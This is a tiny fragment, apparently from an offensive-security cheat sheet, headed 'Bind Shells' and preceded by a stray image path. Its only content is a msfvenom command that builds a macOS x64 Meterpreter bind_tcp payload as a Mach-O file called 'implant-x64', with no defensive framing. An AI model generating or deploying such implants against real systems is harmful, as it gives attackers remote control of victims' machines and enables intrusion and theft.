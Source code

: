 # Bind Shells

1. x86-64 (64-bit) Payloads

```
$ msfvenom -p osx/x64/meterpreter/bind_tcp lport=<PORT> -f macho -o implant-x64
```